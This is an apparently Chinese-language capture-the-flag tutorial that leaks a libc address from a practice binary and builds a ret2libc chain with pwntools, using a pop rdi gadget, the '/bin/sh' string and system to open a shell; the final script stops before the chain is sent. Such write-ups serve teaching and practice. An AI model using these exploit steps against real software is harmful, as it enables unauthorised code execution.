 ```py=
from pwn import *

r = process('./ret2libc')
gdb.attach(r)
context.terminal = ['tmux', 'splitw', '-h']
r.sendlineafter('>> ', '2')
r.sendlineafter('Index: ', '11')
r.recvuntil('Number: ')
Index11 = int(r.recvline().strip())
print(f'Index 11: {hex(Index11)}')
libc_base = Index11 - 0x29d90
log.info(f'Libc base: {hex(libc_base)}')

r.interactive()
```

執行會發現確實可以得到 libc 的 base address

![image](https://hackmd.io/_uploads/rJIfqTTpC.png)

拿到 base address 後就可以像昨天的內容一樣開始找 gadgets 和疊出可以開 shell 的 chain 了，並且由上述內容可以發現我們會需要

- `pop rdi; ret;`
- `&”/bin/sh” (Address to string “/bin/sh”)`
- `system`

首先一樣先用 `ROPGadget` 找出所有 gadgets，`ROPgadget --binary libc.so.6 > libc_gadgets`，接下來找出 gadgets，要注意這些 gadgets 使用上皆必須加上 base address

![image](https://hackmd.io/_uploads/ByXysaaaC.png)

然後使用 `strings -a -t x <path to libc> | grep /bin/sh` 找出字串位址

![image](https://hackmd.io/_uploads/By9Qsp6aR.png)

system 的 offset 可以使用 gdb 將程式執行起來再使用 `off system` 找，不過這邊在下中斷點會發現不能在 main 下中斷點了，因為有進行 patch 過，不過我們可以透過在 printf 下中斷點再執行(`b printf`)，接下來 `r` 執行，然後 `off system`，即可得到 offset

![image](https://hackmd.io/_uploads/Bk4G2aa6R.png)

所以接下來只需要找到要先填多少的 padding 才能 control flow 即可開始寫 exploit

這邊使用 objdump 查找，`objdump -M intel -d ret2libc`，會發現會從 `rbp-0x70` 開始讀入 `0x100` 的字串

![image](https://hackmd.io/_uploads/BJGEappTA.png)

所以我們在 control flow 前會先需要填充 0x70+0x8(save rbp)，才會開始覆蓋到 return address

如此一來就可以開始寫 exploit 了

```py=
from pwn import *

r = process('./ret2libc')
# gdb.attach(r)
context.terminal = ['tmux', 'splitw', '-h']
r.sendlineafter('>> ', '2')
r.sendlineafter('Index: ', '11')
r.recvuntil('Number: ')
Index11 = int(r.recvline().strip())
print(f'Index 11: {hex(Index11)}')
libc_base = Index11 - 0x29d90
log.info(f'Libc base: {hex(libc_base)}')

pop_rdi = libc_base + 0x000000000002a3e5
bin_sh = libc_base + 0x1d8678
system = libc_base + 0x50d70
```